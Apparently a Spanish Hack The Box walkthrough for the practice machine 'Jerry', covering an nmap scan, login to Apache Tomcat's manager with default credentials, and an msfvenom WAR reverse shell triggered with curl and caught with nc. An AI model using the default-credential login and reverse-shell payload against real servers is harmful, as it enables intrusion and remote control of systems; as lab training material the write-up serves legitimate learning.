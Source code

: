 ```yaml
---
title: Jerry - HTB Writeup
date: 2023-09-06 22:00:00 +0800
categories: [Writeups, HTB]
tags: [Easy, Windows, Writeup]
image:
  path: /assets/img/post/jerry/catherine-heath-i4W8OINLI_I-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


**Jerry** es una máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

En esta máquina explotaremos una vulnerabilidad en el servicio ```Apache``` por el puerto ```8080```

## **Reconocimiento**

Como siempre utilizaremos la herramienta ```nmap``` para reportar los puertos abiertos en la máquina víctima:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts
```

![img](/assets/img/post/jerry/feb426c5-b454-4f82-aaa7-5949a66c0751.png)

En la máquina esta abierto solamente el puerto ```8080``` , si introducimos la ```URL``` en el buscador junto al puerto, podemos ver lo siguiente:

![img](/assets/img/post/jerry/0701b41c-55c8-4188-ba3f-75cf0c92fbcc.png)

Podemos **loguearnos** en el servicio **Apache Tomcat** con las credenciales predeterminadas ```tomcat:s3cret```:

![img](/assets/img/post/jerry/658a5dde-829f-4032-8068-8d70f427a1e0.png)

Vemos que hay una sección donde podemos **subir archivos** ```.war``` , la cual usaremos para conseguir acceso al sistema:

![img](/assets/img/post/jerry/f13630bf-58f1-4988-bdea-0e9e224c5fc1.png)

### Web Aplication Resource Files

> Un archivo ```WAR```, es un formato de archivo utilizado para **empaquetar y distribuir aplicaciones web** en la plataforma **Java**. Este contiene todos los recursos necesarios para ejecutar una aplicación web en un solo archivo comprimido.

## Explotación

Usaremos la herramienta ```msfvenom``` para crear una ```reverse shell``` en windows y poder acceder mediante ```nc```:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war > rev_shell.war
```

![img](/assets/img/post/jerry/6f231e1c-e4ea-4e1c-a7ea-c9341910e71c.png)

Además deberemos saber el nombre del archivo ```.jsp``` para activarla con la herramienta ```curl``` , por lo tanto usaremos ```jar``` para enumerar el contenido del archivo ```.war```:

![img](/assets/img/post/jerry/bc65ae69-5fe0-4c28-a763-84e8280629c9.png)

Ahora subiremos la reverse shell, mediante la web utilizando ```curl``` , nos pondremos en escucha en otra terminal mediante ```nc```:

```bash
curl http://10.10.10.95:8000/rev_shell/mdeonxmbgy.jsp
```

![img](/assets/img/post/jerry/7bd0c1bc-d7de-4a35-b8df-496fc4bce938.png)

De esta manera ya tendremos acceso completo a la máquina víctima, en donde podremos encontrar las flags en el ```Desktop``` del usuario ```administrator```

*Espero que os haya gustado y servido, cualquier comentario es de mucha ayuda. Adios!*
